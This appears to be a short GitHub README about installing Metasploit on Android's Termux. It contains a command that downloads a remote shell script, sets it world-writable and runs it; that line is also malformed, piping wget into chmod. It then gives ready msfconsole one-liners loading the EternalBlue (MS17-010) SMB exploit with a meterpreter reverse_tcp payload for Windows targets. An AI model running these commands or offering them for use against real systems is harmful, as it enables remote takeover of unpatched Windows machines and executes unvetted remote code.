 # msfconsole-termux

### How To Install Metasploit-Table on the Android Termux

```
pkg  update

apt-get install curl wget -y

wget https://raw.githubusercontent.com/jas502n/msfconsole-termux/master/metasploit.sh |chmod 777 metasploit.sh && ./metasploit.sh


```

EXP

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/meterpreter/reverse_tcp;set ProcessName explorer.exe;show options"


msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/meterpreter/reverse_tcp;set ProcessName explorer.exe;show options"

```
